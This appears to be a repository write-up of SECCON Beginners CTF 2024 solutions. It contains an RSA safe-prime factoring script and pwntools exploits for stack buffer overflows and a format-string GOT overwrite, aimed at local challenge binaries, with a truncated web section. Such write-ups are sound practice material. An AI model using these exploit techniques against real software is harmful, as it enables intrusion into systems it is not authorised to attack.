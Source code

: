# SECCON Beginners CTF 2024

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

### simpleoverwrite

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=17m30s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
io = process([exe.path])
io.sendlineafter(b'input:', b'A'*0xa + b'B'*8 + p64(exe.sym.win))
io.interactive()
```

### pure-and-easy

- https://qiita.com/mae_t/items/91a82f8efe361305c29b
- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=63m31s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, FmtStr, context, fmtstr_payload, gdb, log, process, remote
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = process([exe.path])
# io = gdb.debug([exe.path], gdbscript='b main \n c')
io = remote('::1', 9000)


def exec_fmt(payload):
    p = process([exe.path])
    p.sendline(payload)
    return p.readline()


autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
log.info('win: %#x', exe.sym.win)
log.info('exit GOT: %#x', exe.got.exit)
payload = fmtstr_payload(
        offset, {exe.got.exit: exe.sym.win})
log.info('payload: %s', (repr(payload)))
io.sendlineafter(b'>', payload)
log.info(io.recvall().decode(errors='ignore'))
```

## web

#### wooorker

- https://github.com/SECCON/SECCON_Beginners_CTF_2024/tree/main/crypto/Safe%20Prime
